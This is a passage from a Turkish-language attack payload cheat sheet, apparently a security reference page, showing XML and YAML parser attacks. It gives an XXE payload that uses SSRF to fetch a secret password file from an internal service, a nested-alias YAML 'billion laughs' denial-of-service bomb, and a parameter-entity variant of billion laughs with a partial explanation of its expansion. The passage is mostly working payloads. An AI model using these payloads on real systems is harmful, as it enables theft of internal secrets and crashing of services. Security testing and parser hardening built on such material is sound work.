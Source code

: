 ### 99-SSRF Saldırıları Gerçekleştirmek için XXE'den Yararlanma

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```

### 99-YAML Attack (DOS)

```yaml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

### 99-Parameters Laugh Attack

Sebastian Pipping tarafından, parametre varlıklarının gecikmeli yorumlanmasını kullanan Billion Laughs saldırısının bir varyantı.

```xml
<!DOCTYPE r [
  <!ENTITY % pe_1 "<!---->">
  <!ENTITY % pe_2 "&#37;pe_1;<!---->&#37;pe_1;">
  <!ENTITY % pe_3 "&#37;pe_2;<!---->&#37;pe_2;">
  <!ENTITY % pe_4 "&#37;pe_3;<!---->&#37;pe_3;">
  %pe_4;
]>
<r/>
```

* `%pe_1` adında bir parametre varlığı tanımlanır. Bu sadece bir HTML yorumudur (boş bir `<!-- -->`)
- `%pe_2` içinde `%pe_1` iki kez çağrılır. `&#37;` = `%` karakterinin XML’deki karakter referansıdır.
- Yani burada `%pe_2` şuna dönüşür:

```
<!----><!----><!---->
```

```
<!ENTITY % pe_3 "&#37;pe_2;<!---->&#37;pe_2;">
```
